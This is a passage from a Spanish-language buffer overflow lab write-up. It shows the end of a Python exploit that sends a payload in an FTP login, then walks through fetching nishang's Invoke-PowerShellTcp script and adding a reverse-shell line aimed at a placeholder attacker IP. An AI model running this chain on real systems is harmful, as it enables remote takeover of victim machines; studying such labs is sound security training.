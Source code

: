 ```bash
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the server
    s.connect((ip_add, port))

    # Receive banner
    banner = s.recv(1024)

    # Send data
    s.send(b"USER bof" + b"\r\n")
    s.send(b"PASS " + payload + b"\r\n")
    s.close()

if __name__ == '__main__':
    exploit()
```

El comando de powershell que se está ejecutando lo que hará es cargar el recurso “PS.ps1” de la máquina del atacante. El contenido de este recurso será un script de nishang obtenido del siguiente proyecto de github: [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)

Este script se copiará en la máquina local y se cambiará su nombre a “PS.ps1”

```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
mv Invoke-PowershellTcp.ps1 PS.ps1
```

Ahora se agregará la siguiente línea al final del script, esto para que una vez interpretado todo el script ejecute la instrucción:

```bash
Invoke-PowerShellTcp -Reverse -IPAddress <IPAtacante> -Port <Puerto>
```

![Untitled](../assets/Buffer-Overflow/Lab1/Modificar-Shellcode/Untitled 1.png)

Una vez hecho esto, ahora el atacante al compartir un servidor con python3 y estando en escucha por el puerto 443, al ejecutar el script, la máquina víctima ejecutará el shellcode el cual indica que se debe hacer una petición al recurso PS.ps1 en la máquina del atacante y cuando cargue este recurso, enviará una reverse shell:

![Untitled](../assets/Buffer-Overflow/Lab1/Modificar-Shellcode/Untitled 2.png)
